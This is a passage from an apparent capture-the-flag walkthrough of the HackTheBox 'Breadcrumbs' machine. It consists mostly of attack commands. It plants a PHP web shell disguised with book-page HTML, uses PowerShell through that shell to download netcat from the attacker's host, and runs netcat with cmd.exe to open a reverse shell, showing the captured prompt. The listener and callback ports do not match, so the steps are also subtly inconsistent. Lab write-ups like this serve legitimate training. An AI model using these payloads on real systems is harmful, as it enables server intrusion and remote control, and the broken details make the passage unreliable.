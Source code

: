 ```sh
```

![h](https://media.discordapp.net/attachments/490431433559506954/823464698409648169/unknown.png)

OK, now change the phpinfo () to the following, and add html garbage data above to get a shell.

```sh
<?php

system($_GET['cmd']);

?>

<h3>Title: Animal Farm</h3>

<p>Author: George Orwell </p>

<p style="color: red;">Max borrow duration: 8 days</p>

<p>About:<br>Animal Farm is an allegorical novella by George Orwell, first published in England on 17 August 1945. The book tells the story of a group of farm animals who rebel against their human farmer, hoping to create a society where the animals can be equal, free, and happy. </p>
```

Now use netcat to get a shell.

```sh
?--san1ty@san1ty ~/HackTheBox/Breadcrumbs
?-?  python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.228 - - [23/Feb/2021 12:30:00] "GET /nc.exe HTTP/1.1" 200 -
```

```sh
http://10.10.10.228/portal/uploads/sanity.php?cmd=powershell%20(new-object%20Net.WebClient).DownloadFile(%27http://10.10.14.12/nc.exe%27,%27C://Users//www-data//Desktop//xampp//htdocs//portal//uploads//nc.exe%27)
```

And there we get a reverse shell.

```sh
http://10.10.10.228/portal/uploads/sanity.php?cmd=nc.exe%2010.10.14.12%203221%20-e%20c:/windows/system32/cmd.exe
```

```sh
?--san1ty@san1ty ~/HackTheBox/Breadcrumbs
?-?  nc -lvp 1337
listening on [any] 1337 ...
Ncat: Connection from 10.10.10.228.
Ncat: Connection from 10.10.10.228:50994.
Microsoft Windows [Version 10.0.19041.746]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\Users\www-data\Desktop\xampp\htdocs\portal\uploads>
```
